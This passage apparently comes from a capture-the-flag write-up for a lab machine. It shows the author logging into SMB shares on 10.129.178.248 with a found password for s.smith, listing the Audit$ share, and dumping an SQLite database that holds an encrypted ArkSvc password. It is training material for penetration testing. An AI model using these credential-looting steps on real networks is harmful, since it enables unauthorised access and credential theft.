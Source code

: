 ```
The command completed successfully.
```

Audit Share is rather interesting. We can take another look at the SMB shares I have available to `s.smith`.&#x20;

```
$ smbmap -H 10.129.178.248 -u s.smith -p sT333ve2   
[+] IP: 10.129.178.248:445      Name: 10.129.178.248                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

There's a new share called `Audit$` available. Within it, there were some files, including a DB file.

```
$ smbclient -U s.smith //10.129.178.248/Audit$   
Password for [WORKGROUP\s.smith]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1627021 blocks available
smb: \> cd DB
smb: \DB\> ls
  .                                   D        0  Tue Jan 28 16:40:59 2020
  ..                                  D        0  Tue Jan 28 16:40:59 2020
  Audit.db                           An    24576  Tue Jan 28 16:39:24 2020
```

`Audit.db` was an SQLite database file, which we can open using `sqlite3`.&#x20;

```
$ sqlite3 -readonly Audit.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc
sqlite> SELECT * FROM ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```
